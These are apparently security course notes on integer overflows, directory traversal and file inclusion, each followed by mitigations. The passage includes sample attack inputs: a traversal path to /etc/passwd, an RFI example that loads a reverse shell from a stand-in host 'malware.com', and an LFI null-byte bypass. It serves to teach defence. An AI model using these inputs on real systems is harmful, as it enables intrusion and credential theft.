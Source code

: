 - Integer overflows are not as bad as buffer overflows because they don't create an opportunity for code injection
- But they can crash an application, bring it to an unpredictable state, or corrupt a database
- Usually it's a DoS condition, or a loss of availability - we don't want this

### Mitigation

- Decide what number boundaries your app will need - this depends on its purpose
	- If it's something scientific where very long numbers are needed, your app must be able to handle it
- In your code, always use number types that can accommodate the necessary number length
- Have boundary checks that will prevent an overflow
- Input validation, as always
- Consider every case in which a user can bring a number that was first within boundaries to a state where it's out of boundaries - again, have checks in place

---

# Web app vulnerabilities and attacks

- The vast majority of web apps, if not all of them, rely on interaction with the user via **user input**
	- Search fields, comments, login forms, etc.
- User input is the source of all evil!

### Directory traversal

- The `../` attack
- Malicious actor uses the address bar and attempts to view files and folders that shouldn't be visible on the same machine as the web server
	- `../../../../../etc/passwd` - if successful, they now have a list of users and their privileges
	- If they can access `/etc/shadow`, they can attempt dumping credentials from there and cracking password hashes
- Stems from application misconfiguration and lack of security in the address bar
- Mitigation:
	- Can be detected by a WAF
	- Disallow `../` and all of its obfuscated/encoded derivatives in the address bar
	- Disallow directory access from query strings
	- Route things in such a way as to throw a 404 whenever a page isn't accessed **from** another specific page
	- Make sure the app and its users have no permissions to access anything outside of the app

### File inclusion

- Uploading external files into a web app without permission
- Tricking the app into downloading malicious content
- Two types:
	- **Remote File Inclusion (RFI)**
		- `page.php?q=http://malware.com/rev-shell.php`
		- Including something from an external resource and making the app run it
	- **Local File Inclusion (LFI)**
		- `page.php?document=../../temp/shell.sh%00`
		- Including something (like a document or a font) that's already on the server and making the app run it
		- Requires a directory traversal vuln
		- The `%00` is a null byte that attempts to bypass the app's file extension checks
- Mitigation:
	- Disable remote inclusion (`allow_url_include` set to 0 in PHP)
	- Make a whitelist if remote inclusion is necessary - everything else is disallowed
	- Disable `allow_url_fopen` to control the ability to open/include/use a remote file
	- Use preset conditions as an alternative to filenames when file inclusion is based on user input
	- Track where a request for inclusion comes from, satisfy those requests only based on certain conditions
